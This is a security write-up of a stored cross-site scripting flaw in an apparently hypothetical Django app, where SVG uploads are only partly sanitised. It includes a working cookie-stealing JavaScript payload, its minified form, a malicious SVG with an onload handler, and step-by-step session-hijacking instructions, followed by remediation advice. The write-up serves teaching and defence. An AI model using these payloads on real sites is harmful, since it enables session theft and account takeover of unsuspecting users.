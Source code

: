 # Vulnerability 20241206 - Cross-site Scripting (XSS)

## Reasoning Behind the Vulnerability

Our hypothetical development team finally decided to refactor image post submissions to be more robust, when they noticed scammers and malicious actors using the complete lack of image validation to share malware.

Image file MIME types were restricted to a few: JPEG, PNG and SVG. As of now, images are validated down to their magic numbers, though SVG has some additional steps.

Knowing SVG enables the execution of embedded scripts on the browser, script tags were sanitized, alongside blocking the upload of content infected with known XML attacks, such as the billion laughs attack and XXE (eXternal XML entity) attacks. Yet our developers forgot to consider one thing: inline scripting.

Additionally, while debugging another part of the application, a developer misconfigured the web application's defaults, disabling the HttpOnly flag and forgetting to revert this change before pushing it to production. 

Please consult [the auxiliary report](/vuln/deliver4/aux/README.md) for details on this particular misconfiguration, including security impact and recommendations.

## Proof of Concept
The vulnerability is present when a user uploads an SVG file with injected inline ECMAScript on a valid element's event handler attribute (e.g. the "onload" attribute on an image element).

Almost all SVG elements support event handlers, allowing arbitrary inline script execution.

When a potential victim opens this SVG file on a new tab (the SVG file's URI on the website), the inline script is executed depending on which event handler is used and how it is triggered. A particularly useful attribute is "onload", as it executes the payload as soon as the page is rendered, increasing the likelihood of attack occurrence.

### Vulnerable Code Snippet

The vulnerable code is called in [views.py](/app/back/views.py) at line 421 from [file_upload_validation.py](/app/back/file_upload_validation.py) at the `sanitize_svg` fuction.

At views.py
```py
def upload(request):
    if request.method == "POST":
        user = request.user.username
        image = request.FILES.get("uphoto")

        # Validate image
        if image:
            try:
                raw_image = validate_image(image) # Here
                raw_image = BytesIO(raw_image)
                image.file = raw_image
```

At file_upload_validation.py
```py
def sanitize_svg(svg):
    ...
    # Eliminate script tags
    prefind = root.findall('.//{*}script')
    for child in prefind:
        child.getparent().remove(child)
    ...
```
A parsed XML element tree has all of its script elements removed, regardless of namespace, but doesn't sanitize event handler attributes.

### How to Reproduce this Vulnerability:

To demonstrate the danger this vulnerability can represent, we'll also exploit an [HttpOnly misconfiguration](/vuln/deliver4/aux/README.md) to hijack a victim's session and perform unauthorized actions under their identity.

1. Sign-in to the website

2. Write a script that reads the document's cookies, fetches a CSRF token from the main page's post submission form and submits a forged POST request containing the raw cookies as the post's message body.

Check [mallory.js](/vuln/deliver4/mallory.js) for an example.

```js
fetch('/', {
    credentials: 'include', // Include cookies in the request
})
    .then(response => response.text())
    .then(html => {
        // Parse the HTML to extract the CSRF token
        const parser = new DOMParser();
        const doc = parser.parseFromString(html, 'text/html');
        const csrfToken = doc.querySelector('[name=\"csrfmiddlewaretoken\"]').value;

        // Now, use the token to submit the form
        fetch('/upload', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/x-www-form-urlencoded',
            },
            body: 'csrfmiddlewaretoken='+csrfToken+'&amp;caption=TEST',
            credentials: 'include', // Include cookies in the request
        });
    });
```

3. Pre-process and minify the mallicious script to be inline.

Check [mallory.js](/vuln/deliver4/mallory.js) for a valid pre-processed example.

```js
"fetch('/',{credentials:'include'}).then((e=>e.text())).then((e=>{const t=(new DOMParser).parseFromString(e,'text/html').querySelector('[name=\'csrfmiddlewaretoken\']').value;fetch('/upload',{method:'POST',headers:{'Content-Type':'application/x-www-form-urlencoded'},body:'csrfmiddlewaretoken='+t+'&amp;caption=TEST',credentials:'include'})}));"
```

4. Write or modify an SVG file to render a valid element with the inline script injected into an event handling attribute (e.g. an image element with an infected "onload" attribute).

Example at [malory.svg](/vuln/deliver4/mallory.svg)

```xml
<svg width="100%" height="100%" viewBox="0 0 100 100"
     xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <circle cx="50" cy="50" r="45" fill="green" id="foo" o="foo"/>
  <image xlink:href="/static/logo.png" height="200"
         onload="fetch('/',{credentials:'include'}).then((e=>e.text())).then((e=>{const t=(new DOMParser).parseFromString(e,'text/html').querySelector('[name=\'csrfmiddlewaretoken\']').value;fetch('/upload',{method:'POST',headers:{'Content-Type':'application/x-www-form-urlencoded'},body:'csrfmiddlewaretoken='+t+'&amp;caption='+document.cookie,credentials:'include'})}));"
/>
</svg>
```

This SVG draws a green circle, visible when an HTML `img` element sources from it, but when the SVG's URI is loaded, the SVG `image` element executes successfully, displaying the website's icon over the green circle and executing the inline script payload.

5. Upload the SVG file as a post's image attachment.

![Infected post](upload_infected_svg.PNG)

6. Sign-in as a different user (the victim).

7. Find the attacker's post with the infected SVG (follow the attacker).

![Attacker post on victim view](mallory_infected_post.PNG)

8. Open the SVG on a different browser tab. The injected script should execute.

![Mallory's SVG in a new tab](mallory_newtab.PNG)

9. Consult the front page and check your most recent post to read your own cookies, including the sessionid.

![Your cookies just got leaked!](uhoh_leakage.PNG)

10. On your attacker account (on a **different browser session**, the victim shouldn't log-out or the session is invalidated), you should be able to view the victim account's most recent post containing the sensitive data.

![Mallory sees your cookies](uhoh_mallory_sawit.PNG)

11. Substitute your cookies with the victim's cookies.

![Mallory swaps her cookies](dev_tools_change_cookies.PNG)

12. Reload the main page, at the root of the website ("/").

13. You should now be logged in as the victim.

![Mallory has your account](mallory_is_victim.PNG)

## CWE and Security Impact
**CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')**

The Cross-site Scripting weakness is noticeable here as the web application failed to properly neutralize (sanitize) user input (SVG file) during the web page's generation (loading SVG URI), specifically, a failure to neutralize event handler attributes that accept inline scripts from the uploader.

Similarly to most XSS vulnerabilities, this vulnerability allows attackers to compromise all three components of the well-known C.I.A triad. 

Attackers will be able to perform most website actions using a victim's identity, be it interactively (using an hijacked session cookie) or programmatically via the fetch API at the injected scripted. Credential stealing could also occur with a forged false log-in page, giving attackers more authenticated actions to perform if successful.

## Recommendations
- Enable the HttpOnly flag by removing the settings.py override entirely (Django enables this flag by default). This measure is highly effective in most browser scripting engines [CWE-1004](https://cwe.mitre.org/data/definitions/1004.html).
- Do not allow users to upload SVG files.
- Do not validate user-uploaded SVG files based off magic numbers and use a secure XML parser to validate them.
- If restricting SVG file uploads is not possible or favourable, sanitize SVG to remove all script tags, foreignObject tags and event handling attributes. Use a certified or tested library or framework to perform sanitization.
- Implement strict CSP policies to mitigate data accesses and exfiltration in the event of XSS.